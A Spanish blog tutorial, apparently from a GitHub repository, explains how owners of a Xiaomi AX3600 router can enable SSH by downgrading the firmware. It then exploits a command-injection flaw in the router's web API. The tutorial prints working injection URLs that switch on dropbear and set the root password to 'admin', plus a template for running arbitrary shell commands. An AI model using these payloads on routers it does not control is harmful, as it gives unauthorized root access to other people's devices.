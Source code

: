
Xiaomi AX3600 - Activar SSH
===========================

Usaremos un exploit que se encuentra en una versión de firmware antigua para obtener acceso SSH al rúter y modificar a nuestro antojo los archivos de configuración. AX3600 SSH

1 mar. 2021 · 3 min de lectura

Antes que nada hay que agradecer al usuario [LonGDikE 188](https://www.right.com.cn/forum/space-uid-249305.html) de un foro de entusiastas chinos, ya que logro dar con el siguiente exploit para obtener acceso SSH a nuestro rúter.
A modo de tributo a la comunidad hispano hablante he traducido los pasos para activar SSH a nuestro querido idioma.

Lo primero, necesitamos tener el rúter en su versión china, en concreto la 1.0.17 ya que en dicha versión se encuentra el exploit.
La versión 1.0.17 la puedes descargar aquí: [dabm-git/ax3600-files](https://github.com/dabm-git/ax3600-files)

¡Ah! Antes de continuar, no me gusta el anglicismo router, por tanto usare rúter 🤪

* * *

### La versión 1.0.17  

Necesitamos estar en la versión 1.0.17 Y el rúter configurado, es decir con el asistente de configuración inicial terminado, desde la interfaz web de tu rúter puedes subir esta versión, en concreto tenemos que ir **Ajustes**\->**Información**\-> **Subir el fichero de forma manual.**

![](./resources/upgrade_ax3699.JPG)

Una vez subida la versión 1.0.17 el rúter se reiniciará y volverá a la configuración de fabrica con la versión que nos interesa.

Nos conectamos al rúter de nuevo, realizamos la configuración inicial, si, estará en chino... siguiente, siguiente, contraseña WiFi, te recomiendo establecer una contraseña sencilla por ahora, algo del estilo _123456789_ si tienes algún problema con el **Chino**, puedes usar tu móvil y traducir con la aplicación de [Google Translate](https://play.google.com/store/apps/details?id=com.google.android.apps.translate) usando la cámara.

### ¡Al turrón!  

En este punto tendremos la versión citada y podemos empezar a trastear, desde un explorador web nos conectaremos al rúter, generalmente la dirección IP será [192.168.31.1](http://192.168.31.1/) , la contraseña de log-in será la contraseña WiFi que se estableció en la configuración.

Lo que tenemos que hacer una vez iniciada la sesión será fijarnos en el parámetro _**;stok=(clave)**_ de en la barra de búsqueda.

![](./resources/stok_ax3699.JPG)

**En mi caso, el valor stok es: _3719ab425433e074d2bd05345f35944a_**

A continuación construiremos el exploit en si, usando los siguientes enlaces, **modifica el parámetro <stok>** con el tuyo e introdúcelos uno por uno la barra de direcciones de tu explorador web.

Si todo ha ido bien, verás {"code":0} en el contenido de la web.

Con este primer enlace conseguiremos que el rúter ejecute: _nvram set ssh\_en=1; nvram commit,_ para **establecer que esta activado el SSH** en la memoria de acceso aleatorio no volátil.

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3Bnvram%20set%20ssh%5Fen%3D1%3B%20nvram%20commit%3B

Con el segundo se **activa el servicio de _dropbear_** para acceder via SSH, en concreto ejecuta: _sed -i 's/channel=.\*/channel="debug"/g' /etc/init.d/dropbear_

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3Bsed%20-i%20's/channel=.*/channel=%5C%22debug%5C%22/g'%20/etc/init.d/dropbear%3B

Con el tercero se **enciende el servicio SSH**, ejecuta: _/etc/init.d/dropbear start_

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3B/etc/init.d/dropbear%20start%3B

¡Enhorabuena! En este punto si todos los códigos han sido 0, tienes activado en tu rúter SSH, ahora bien el usuario será root, pero **¿y cual es la contraseña?.**

Pues vamos a ponerle, _admin_, por qué no :P, ejecuta: _echo -e "admin/nadmin" | passwd root,_ para **establecer una contraseña a root**.

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%0Aecho%20-e%20%27admin%5Cnadmin%27%20%7C%20passwd%20root%0A
    

Ahora si, ya tenemos activado SSH en nuestro rúter y además el usuario es _**root**_ y la contraseña _**admin**._

![](./resources/ax3600-1.jpg)

Adicionalmente si quieres enviar algún otro comando usando el exploit stok, puedes usar el siguiente enlace (o hacerlo directamente desde la terminal), añadiendo el código que quieras al final, pero ¡ojo!, tiene un marcado de enlaces de explorador...

    http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=dabm&ssid=-h%3B<encoded shell here>%3B

**Si queremos que persista el desbloqueo SSH** con las actualizaciones, por si nos interesa actualizarlo a una versión Internacional, - en el siguiente post -, donde además explico como cambiar la localización del mismo para cumplimentar con las leyes de emisión WiFi (o no) > \[En breve jeje\]

* * *

